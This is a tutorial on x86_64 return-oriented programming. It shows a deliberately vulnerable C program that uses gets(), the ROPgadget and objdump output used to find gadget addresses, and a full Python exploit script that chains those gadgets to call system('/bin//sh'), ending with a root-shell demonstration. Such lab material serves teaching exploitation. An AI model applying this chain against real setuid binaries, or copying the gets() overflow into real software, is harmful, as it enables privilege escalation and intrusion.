 Tools:
1. objdump
2. ROPgadget

Binary protection:
1. Read Only relocations
2. No exec stack
3. No exec heap
4. ASLR

Compilation: Static

Architecture: x86_64

Operating System: Linux (Debian)

#1. Vulnerable binary
We can do a lot of things thanks to Return Oriented Programming. Today I will show you how to return to Libc function.
<pre><code class="cpp">#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;

void my_system()
{
  printf("Who I am:\n");
  system("whoami");
}

int main(int ac, char **av)
{
  char buf[64];

  gets(buf);    // Warning
  my_system();
  printf("me:\n%s", buf);
  return 0;
}</code></pre>
This very simple program use the "system" libc function to display the "whoami" command output. We will hijack the program to execute the "/bin/sh" command instead of "whoami".
#2. To begin
If we take a look at the compile code, we can see:
<pre><code class="bash">$ objdump -D a.out | grep -A 12 "&lt;__libc_system&gt;:"
00000000004075d0 &lt;__libc_system&gt;:
  4075d0:	48 85 ff             	test   %rdi,%rdi
  4075d3:	74 0b                	je     4075e0 &lt;__libc_system+0x10&gt;
  4075d5:	e9 26 fc ff ff       	jmpq   407200 &lt;do_system&gt;
  4075da:	66 0f 1f 44 00 00    	nopw   0x0(%rax,%rax,1)
  4075e0:	48 83 ec 08          	sub    $0x8,%rsp
  4075e4:	bf d6 8b 48 00       	mov    $0x488bd6,%edi
  4075e9:	e8 12 fc ff ff       	callq  407200 &lt;do_system&gt;
  4075ee:	85 c0                	test   %eax,%eax
  4075f0:	0f 94 c0             	sete   %al
  4075f3:	48 83 c4 08          	add    $0x8,%rsp
  4075f7:	0f b6 c0             	movzbl %al,%eax
  4075fa:	c3                   	retq</code></pre>
It's the assembly code of the system function. The function simply take a parameter which is place in the RDI register and represent the command executed by the system function.

So the playload will look like:
<pre><code class="bash">+---------------------------+
|          pop rsi          |
|          @ data           |
|          pop rax          |
|  mov QWORD PTR [rsi], rax |
|          pop rdi          |
|          @ data           |
|     @ __libc_system       |
+---------------------------+</code></pre>
#3. The payload
Thanks to ROPgadget, we easily can get all the gadget we need:
<pre><code class="bash">$ ROPgadget --binary a.out | egrep "pop rsi ; ret|pop rax ; ret|mov qword ptr \[rsi\], rax ; ret|pop rdi ; ret"
...
0x000000000045fd31 : mov qword ptr [rsi], rax ; ret
0x0000000000431d4d : pop rax ; ret
0x00000000004015cb : pop rdi ; ret
0x00000000004016e7 : pop rsi ; ret
...</code></pre>
As we already have the system address, we only need the data address:
<pre><code class="bash">$ objdump -D a.out | grep "&lt;data&gt;":
00000000006b84b8 &lt;data&gt;:
</code></pre>
The whole payload will look like:
<pre><code class="bash">#!/usr/bin/env python2.7

from struct import pack

payload = 'A'*72 # Padding

payload += pack("&lt;Q", 0x00000000004016e7) # pop rsi ; ret
payload += pack("&lt;Q", 0x00000000006b84b8) # @ data
payload += pack("&lt;Q", 0x0000000000431d4d) # pop rax ; ret
payload += '/bin//sh'
payload += pack("&lt;Q", 0x000000000045fd31) # mov qword ptr [rsi], rax ; ret
payload += pack("&lt;Q", 0x00000000004015cb) # pop rdi ; ret
payload += pack("&lt;Q", 0x00000000006b84b8) # @ data

payload += pack("&lt;Q", 0x00000000004075d0) # @ __libc_system

print payload
</code></pre>
#4. Exploitation
A root shell please !
<pre><code class="bash">$ (python rop.py;cat) | ./a.out
Who I am:
root
me:
id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
</code></pre>
Done.
